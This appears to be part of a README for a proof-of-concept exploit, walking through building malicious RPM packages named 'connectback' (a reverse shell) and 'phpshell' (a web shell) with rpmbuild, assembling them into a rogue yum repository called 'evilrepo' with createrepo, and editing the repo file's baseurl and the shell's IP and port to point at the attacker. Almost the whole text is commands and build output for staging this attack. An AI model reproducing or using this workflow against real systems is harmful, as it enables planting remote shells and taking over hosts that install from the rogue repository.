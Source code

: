 You will need two tools to customize this exploit: ```rpmbuild``` to build an rpm from a ```.spec``` file, and ```createrepo``` to create the repository metadata. I'm going to show how the process is done by recreating the evilrepo from the ```.spec``` files:

```
[0x00 poc]$ ls -1
connectback.spec
evilrepo
phpshell.spec

# ... modify .spec files, e.g. use another IP/port for the connectback shell

[0x00 poc]$ rpmbuild connectback.spec -bb --target x86_64-centos-linux --define "_topdir ./rpmbuild"
Building target platforms: x86_64-centos-linux
Building for target x86_64-centos-linux
error: Failed to resolve symbol syslog_hooks: Undefined symbol "nspr_use_zone_allocator"
Processing files: connectback-0-0.x86_64
Checking for unpackaged file(s): /usr/local/lib/rpm/check-files ./rpmbuild/BUILDROOT/connectback-0-0.%{_arch}
Wrote: ./rpmbuild/RPMS/x86_64/connectback-0-0.x86_64.rpm
Executing(%clean): /bin/sh -e /var/tmp/rpm-tmp.cprp6P
+ umask 022
+ cd ./rpmbuild/BUILD
+ /bin/rm -rf ./rpmbuild/BUILDROOT/connectback-0-0.%{_arch}
+ exit 0
[0x00 poc]$ rpmbuild phpshell.spec -bb --target x86_64-centos-linux --define "_topdir ./rpmbuild"
Building target platforms: x86_64-centos-linux
Building for target x86_64-centos-linux
error: Failed to resolve symbol syslog_hooks: Undefined symbol "nspr_use_zone_allocator"
Processing files: phpshell-0-0.x86_64
Checking for unpackaged file(s): /usr/local/lib/rpm/check-files ./rpmbuild/BUILDROOT/phpshell-0-0.%{_arch}
Wrote: ./rpmbuild/RPMS/x86_64/phpshell-0-0.x86_64.rpm
Executing(%clean): /bin/sh -e /var/tmp/rpm-tmp.yAK4yg
+ umask 022
+ cd ./rpmbuild/BUILD
+ /bin/rm -rf ./rpmbuild/BUILDROOT/phpshell-0-0.%{_arch}
+ exit 0
[0x00 poc]$ mkdir evilrepo_new
[0x00 poc]$ cp rpmbuild/RPMS/x86_64/connectback-0-0.x86_64.rpm evilrepo_new/connectback.rpm
[0x00 poc]$ cp rpmbuild/RPMS/x86_64/phpshell-0-0.x86_64.rpm evilrepo_new/phpshell.rpm
[0x00 poc]$ cd evilrepo_new
[0x00 evilrepo_new]$ createrepo .
Spawning worker 0 with 2 pkgs
Workers Finished
Saving Primary metadata
Saving file lists metadata
Saving other metadata
Generating sqlite DBs
Sqlite DBs complete
[0x00 evilrepo_new]$ ls -1 ./repodata
0cee6579fb8b0c20891dc0736ad9b8703c56bacb588ed123184f5e8428902354-other.sqlite.bz2
16e395020135d6a89e2855c3a2192381ad6d104611ccec9d8446b4a5b9d8ea65-filelists.xml.gz
179a5529ed4d17de07551dcf4fab882d11457b561a43ce7836aa45b07765cd50-filelists.sqlite.bz2
43e016d71c36f84b231d20d8a62d0c275223a9e28663d6edcd76b2f4dd4a04a5-other.xml.gz
5ea0c08d8b25ed8daf6a593f4efb8b2e7956bbb1093734b2fab128be010348b3-primary.sqlite.bz2
7c2364c132701cd1e31260051bd54156b15c1e58da64956f87737350c2286a0a-primary.xml.gz
repomd.xml
[0x00 evilrepo_new]$ cp ../evilrepo/evil.repo ./new.evil.repo

# ... modify ./new.evil.repo, e.g. use a different IP and/or port for baseurl
```
 